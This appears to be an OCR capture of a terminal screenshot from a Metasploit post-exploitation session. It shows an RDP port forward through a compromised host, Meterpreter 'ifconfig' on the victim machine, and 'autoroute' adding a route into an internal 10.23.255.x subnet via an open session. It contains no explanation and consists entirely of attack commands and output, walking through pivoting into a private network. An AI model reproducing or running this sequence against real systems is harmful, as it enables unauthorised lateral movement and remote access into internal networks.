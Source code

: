 ```bash
----- ----- ------ ---------
1 0.0.0.0:3389 x.x.x.x:3389 Forward
1 total active port forwards.

root@xxxx:/# rdesktop 127.0.0.1:3389 Autoselected keyboard map en-us
Failed to negotiate protocol, retrying with plain RDP.
WARNING: Remote desktop does not support colour depth 24; falling back to 16

meterpreter > run autoroute -h

[*] Usage: run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*] run autoroute -s 10.1.1.0 -n 255.255.255.0 # Add a route to
10.10.10.1/255.255.255.0
[*] run autoroute -s 10.10.10.1 # Netmask defaults to 255.255.255.0
[*] run autoroute -s 10.10.10.1/24 # CIDR notation is also okay
[*] run autoroute -p # Print active routing table
[*] run autoroute -d -s 10.10.10.1 # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/windows/manage/autoroute module

meterpreter > ifconfig

Interface 1

============
Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2

============

Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter > run autoroute -s 10.23.255.3 -n 255.255.255.0

[*] Adding a route to 10.23.255.3/255.255.255.0...
[+] Added route to 10.23.255.3/255.255.255.0 via 61.57.243.227
[*] Use the -p option to list all active routes

meterpreter > run autoroute -p

Active Routing Table

====================

Subnet Netmask Gateway
------ ------- -------
10.23.255.3 255.255.255.0 Session 3

meterpreter > ifconfig

Interface 1

============

Name : MS TCP Loopback interface
```